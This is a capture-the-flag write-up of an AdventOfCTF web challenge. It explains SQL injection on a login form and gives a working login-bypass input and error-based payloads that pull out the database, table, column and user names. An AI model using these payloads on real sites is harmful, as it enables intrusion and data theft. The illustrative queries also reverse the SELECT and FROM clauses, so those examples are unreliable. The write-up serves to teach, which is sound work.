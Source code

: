 +++
author = "Maik de Kruif"
title = "Classic"
subtitle = "Challenge 5 - AdventOfCTF"
date = 2020-12-05T08:57:31+01:00
description = "A writeup for challenge 5 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/080b5d5fcaf13167d2e7e8871fdc8ded.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "sql-injection",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 500

## Description

Again a login form stands in your way. What powerful 'hacker' tool will help you proceed?

Visit <https://05.adventofctf.com> to start the challenge.

## Finding the vulnerability

Upon opening the challenge website, we're, yet again, greeted with a login form. As the last few challenges used javascript I immediately opened the devtools to have a look at the sources. But, no javascript! This time it looks like the form is actually submitted. Below the form there is also some text: "A classic, with a twist.". When talking about forms, a classic exploit is SQL Injection. So let's try that.

### SQL Injection

My first try was to submit a quote `'` as the username and some garbage password. This is a common check for SQLi and if it works it throws an error:

```text
Error description: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'sd'' at line 1
```

But how does this work in the first place?

#### Background

When a login form on a website is submitted, the website often connects to a database to check the login credentials. On most website this database is a SQL database.

Here's an example of a query to check login credentials:

```sql
FROM `users` SELECT * WHERE `username`='' AND `password`=''
```

_Note: the backticks (\`) mean the content of it is a column in the database._

The username and password values are inserted in this query and if there is a result, the database will return it.

#### Vulnerability

Now that we know how it works, we can try to exploit it. Take my first input for example (`'`) and see what the resulting query would be.

```sql
FROM `users` SELECT * WHERE `username`=''' AND `password`='garbage'
```

The query becomes invalid as there is an unterminated string. So, how do we turn this query into one that logs us in as the admin?

## Solution

Firstly, I tried to use `' OR 1=1 -- ` as the username and, again, some garbage as the password. However, it didn't work. It didn't even return an error. So I guess this is where "A classic, with a twist." comes in. Next, I tried to just use `admin` as the username and end the query after it by inserting a comment (this is `--` in sql). The resulting input would become `admin' -- ` for the username, the password doesn't matter.

The resulting query would be this:

```sql
FROM `users` SELECT * WHERE `username`='admin' -- ' AND `password`='garbage'
```

As we can see, it now only checks the username. I submitted the form and, I got the flag! It is `NOVI{th3_classics_with_a_7wis7}`

This flag can then be submitted for the [challenge](https://ctfd.adventofctf.com/challenges#5-6).

## EDIT

As [@credmp](https://twitter.com/credmp) correctly pointed out, this only works if you can guess the username. If you can't, you'll have to get it first. I'll explain how to do that here.

### Getting the database

As we can see the error on the page itself, we can use a query to give a result inside the error. For instance, to get the database I used the following input: `' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT database()),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- `. This results into the following query:

```sql
FROM `users` SELECT * WHERE `username`='' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT database()), 0x3a, FLOOR(RAND(0)*2)) as x FROM information_schema.tables GROUP BY x) as y) -- ' AND `password`=''
```

After submitting the form it gives us the following error:

```text
Error description: Duplicate entry 'testdb:1' for key 'group_key'
```

#### How does this work?

Firstly, I'll format the query for you:

```sql
FROM `users`
SELECT *
WHERE `username`='' AND (
  SELECT 1 FROM (
    SELECT COUNT(*), CONCAT(
      (
        SELECT database()
      ),
      0x3a,
      FLOOR(RAND(0)*2)
    ) AS x
    FROM information_schema.tables GROUP BY x
  ) AS y) -- ' AND `password`=''
```

Now let me explain this query.

We start with an `AND` to get another value, which is a nested SQL query. This query selects `1`, this is just because we actually need a value. Now we get to the important bit:

```sql
SELECT COUNT(*), CONCAT(
  (
    SELECT database()
  ),
  0x3a,
  FLOOR(RAND(0)*2)
) AS x
FROM information_schema.tables GROUP BY x
```

Here, we select `COUNT(*)` and a string `CONCAT()` with the alias `x`. This `CONCAT()` contains the SQL query we actually want to execute. I can, however, only return one row. The `CONCAT()` also contains `0x3a` which is ASCII for a `:` character so we know where the value we want ends and `FLOOR(RAND(0)*2)`. The purpose of it is to get a duplicate entry error in the `GROUP BY` as it will result in the following values:

```sql
> SELECT FLOOR(RAND(0)*2)x FROM information_schema.tables;
+---+
| x |
+---+
| 0 |
| 1 |
| 1 | <-- The error will occur here.
| 0 |
| 1 |
| 1 |
 ...
```

The error really occurs because of a bug in MySQL. The `COUNT(*)` and `GROUP BY` should give multiple rows as the output, however, MySQL throws an error.

The `FROM` in this query can be any table with three or more rows. `information_schema.tables` is just a common one.

Now we know the name of the database (`testdb`), we can get the tables in it.

### Getting the tables

We can only get the tables one by one (as I explained above) so we can use the following sub-query:

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema='testdb' LIMIT 0,1
```

Converted to an input we get `' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT table_name FROM information_schema.tables WHERE table_schema='testdb' LIMIT 0,1),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- `

_Note: to get next table, just edit the `LIMIT` to `1,1`, `2,1` and so on_

Which returns:

```text
Error description: Duplicate entry 'users:1' for key 'group_key'
```

Now that we know the table (`users`), we can get it's columns

### Getting the columns

A sub-query for columns could be the following:

```sql
SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1
```

Which converts to this input: `' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- `

Which gives us (with other `LIMIT` as well):

```text
Error description: Duplicate entry 'USER:1' for key 'group_key'
Error description: Duplicate entry 'CURRENT_CONNECTIONS:1' for key 'group_key'
Error description: Duplicate entry 'TOTAL_CONNECTIONS:1' for key 'group_key'
Error description: Duplicate entry 'username:1' for key 'group_key'
Error description: Duplicate entry 'password:1' for key 'group_key'
```

The first three we can just ignore as they are default metrics from MySQL. So our resulting columns would be `username` and `password`

### Getting its contents

Because we only care for the username, we can discard the password.

A simple `SELECT` query for the username would be:

```sql
SELECT username from users limit 0,1
```

Turing this into an input we get `' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT username from users limit 0,1),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- `

We get:

```text
Error description: Duplicate entry 'nottheuser:1' for key 'group_key'
Error description: Duplicate entry 'admin:1' for key 'group_key'
```

Which means our users are `nottheuser` and `admin`.
